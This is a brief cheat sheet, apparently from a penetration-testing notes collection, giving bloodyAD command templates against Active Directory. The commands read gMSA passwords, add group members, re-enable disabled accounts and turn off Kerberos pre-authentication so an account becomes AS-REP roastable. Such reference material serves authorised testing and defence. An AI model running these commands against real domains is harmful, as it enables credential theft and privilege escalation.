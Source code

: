 # BloodyAD #

- Read gMSA (Group-Managed Service Account Passwords)
`bloodyAD -d $DOMAIN --host $DC_HOST_NAME --dc-ip $DC_IP -k get object $ACCOUNT --attr msDS-ManagedPassword`

- Add group member
`bloodyAD -d $DOMAIN --host $DC_HOST_NAME --dc-ip $DC_IP -k add groupMember $GROUP $ACCOUNT`

- Enable a disabled account
`bloodyAD -d $DOMAIN --host $DC_HOST_NAME --dc-ip $DC_IP -k remove uac $ACCOUNT -f ACCOUNTDISABLE`

- Make account ASREProastable
`bloodyAD -d $DOMAIN --host $DC_HOST_NAME --dc-ip $DC_IP -k add uac $ACCOUNT -f DONT_REQ_PREAUTH`


